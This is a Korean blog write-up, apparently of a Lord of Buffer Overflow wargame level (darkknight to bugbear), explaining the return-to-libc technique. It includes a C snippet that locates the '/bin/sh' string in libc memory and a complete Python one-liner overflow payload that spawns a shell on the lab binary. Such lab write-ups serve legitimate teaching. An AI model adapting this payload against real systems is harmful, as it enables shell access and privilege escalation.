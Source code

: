 ```yaml
---
title:  "[LOB] level 13: darkknight >> bugbear "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-25 14:54:33

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 13

**darkknight / new attacker**

bugbear.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147378935-a979880e-d202-423c-adca-dc777f85713f.png)

매개변수 최소 1개 입력  
argv[1][47]이 \xbf여서는 안됨  

이번엔 지금까지 사용했던 스택영역의 주소들을 사용할 수 없다.  
(보통 스택영역은 0xbf로 시작하기때문에)  

코드에 적혀있는 것 처럼 RTL을 사용해야 하는데  
RTL 이란? Return To Libc 로, 메모리에 미리 적재 돼있는 공유 라이브러리를 이용해 바이너리에 원하는 함수가 없어도 공유라이브러리에서 원하는 함수를 사용할 수 있는 공격 기법이다.  
여태껏 system("/bin/sh")를 실행해주는 쉘코드를 삽입해서 사용했다면, RTL은 system("/bin/sh")를 직접 실행시키는 방법이다

페이로드 작성법은:
`python -c 'print "A"*44+system함수 주소+"BBBB"+"/bin/sh 주소"'

먼저 system함수의 주소 구하기  
![image](https://user-images.githubusercontent.com/69203345/147379278-5b27d6b6-f6a6-4771-9c0b-6bce603dee24.png)  
시스템 함수의 주소: 0x40058ae0

"/bin/sh"의 주소를 구하기 위해 코드작성
```c
#include <stdio.h>
#include <string.h>

int main(){
        long system = 0x40058ae0;
        while (memcmp((void*)system, "/bin/sh\x00", 8)){
                system++;
        }
        printf("/bin/sh: %x\n", system);

        return 0;

}
```

![image](https://user-images.githubusercontent.com/69203345/147387550-1b85b62b-2385-40c3-b844-bb77c3e89bd8.png)  
실행시 /bin/sh: 400fbff9 라고 나온다  

페이로드: 
> \`python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"B"*4+"\xf9\xbf\x0f\x40"'`

![image](https://user-images.githubusercontent.com/69203345/147387670-0b541588-72f1-4a9d-adfd-14210cca5683.png)
